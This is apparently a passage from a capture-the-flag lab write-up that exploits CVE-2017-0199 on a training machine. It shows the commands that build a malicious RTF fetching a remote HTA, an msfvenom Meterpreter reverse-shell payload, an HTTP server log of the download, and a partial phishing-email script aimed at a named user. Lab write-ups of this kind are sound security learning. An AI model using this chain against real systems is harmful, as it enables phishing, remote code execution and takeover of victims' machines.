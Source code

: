 Since the machine has been released in 2018.
I searched if there's any vulnerabilities regarding "RTF" before 2018,
and I found the following :
https://www.exploit-db.com/exploits/41894

CVE-2017-0199 is a RCE vulnerability of Microsoft Office, which attackers can run malicious code from specially modified document files. This vulnerability includes OLE object in RTF file, which causes file download and execution from remote server. Through this method, attacker can control the victim's PC.

Create a malicious RTF file :
```bash
┌──(kali㉿kali)-[~/htb/CVE-2017-0199]
└─$ python2 cve-2017-0199_toolkit.py -M gen -t RTF -w malicious.rtf -u http://10.10.14.4:8080/shell.hta
Generating normal RTF payload.

Generated malicious.rtf successfully
```

Create an `hta` file for the later exeuction :
```bash
┌──(kali㉿kali)-[~/htb/CVE-2017-0199]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9000 -f hta-psh > shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of hta-psh file: 7968 bytes
```

Wait for the file download :
```bash
┌──(kali㉿kali)-[~/htb/CVE-2017-0199]
└─$ python -m http.server 8080                                                                         
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.77 - - [29/Dec/2024 02:21:20] "GET /shell.hta HTTP/1.1" 200 -
```

Python code to automate sending mail with malicious attachment :
```python
┌──(kali㉿kali)-[~/htb/CVE-2017-0199]
└─$ cat send_mail.py 
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

# SMTP server information
smtp_server = "10.10.10.77"
smtp_port = 25

# Sender and recipient email
from_email = "attacker@example.com"
to_email = "nico@megabank.com"

# Create email message
msg = MIMEMultipart()
msg['From'] = from_email
msg['To'] = to_email
msg['Subject'] = "Requested Document"

# Email body
body = "Hi Nico,\n\nAs requested, please find the RTF document attached.\n\nRegards,\nAttacker"
```